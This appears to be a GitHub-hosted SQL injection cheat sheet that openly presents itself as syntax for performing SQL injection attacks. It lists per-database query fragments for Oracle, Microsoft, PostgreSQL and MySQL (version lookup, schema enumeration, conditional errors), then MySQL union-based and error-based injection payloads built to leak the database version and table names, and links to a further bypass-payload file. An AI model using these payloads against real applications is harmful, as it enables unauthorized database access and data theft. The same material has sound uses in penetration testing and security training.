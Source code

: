 <h1>SQL Injection Cheat Sheets</h1>
<p>This contains examples of useful syntax to perform SQL injection Attacks.</p>

<a href="https://github.com/kaung-khant-zaw223/cheat-sheets/blob/main/SQL_Injection_ByPass_Payloads.md">SQL Injection Bypass Payloads</a>

<h2>String Concatenation</h2>
<p><b>Oracle      :</b> 'foo'||'bar'</p>
<p><b>Microsoft   :</b> 'foo'+'bar'</p>
<p><b>PostgreSQL:</b> 'foo'||'bar' </p>
<p><b>MySQL:</b> 'foo' 'bar'</p>

<h2>Substring</h2>
<p><b>Oracle:</b> SUBSTR('foobar', 4, 2)</p>
<p><b>Microsoft:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>PostgreSQL:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>MySQL:</b> SUBSTRING('foobar', 4, 2)</p>

<h2>Comments</h2>
<p><b>Oracle:</b> --comment</p>
<p><b>Microsoft:</b> --comment (or) /*comment*/ </p>
<p><b>PostgreSQL:</b> --comment (or) /*comment*/ </p>
<p><b>MySQL:</b> #comment (or) --comment (or) /*comment*/</p>

<h2>Database Version</h2>
<p><b>Oracle:</b> SELECT banner FROM v$version (or) SELECT version FROM v$instance</p>
<p><b>Microsoft:</b> SELECT @@version</p>
<p><b>PostgreSQL: </b> SELECT version()</p>
<p><b>MySQL:</b> SELECT @@version </p>

<h2>Database Contents</h2>
<p><b>Oracle:</b> SELECT * FROM all_tables (or) SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>Microsoft:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>PostgreSQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>MySQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>

<h2>Conditional Errors</h2>
<p><b>Oracle:</b> SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual</p>
<p><b>Microsoft:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</p>
<p><b>PostgreSQL:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END</p>
<p><b>MySQL:</b>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</p>

<h2>UNION BASED</h2>
<p>order by </p>
<p>union select</p>
<p>group_concat(table_name) from information_schema.tables where table_schema=database()</p>
<p>group_concat(column_name) from information_schema.columns where table_name='table_name'</p>
<p>group_concat(data) from table_name</p>

<h2>ERROR BASED</h2>
<b>Intro</b><br> 

SELECT count(*) from information_schema.tables;<br>
SELECT rand();<br>
SELECT floor(1.5);<br>
select 1 from y;<br>
select count(*),username from users group by username;<br>

<b>Variable</b><br>
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>

<b> Version</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)<br>

<b>Table</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x<br> FROM information_schema.tables GROUP BY x) y)<br>
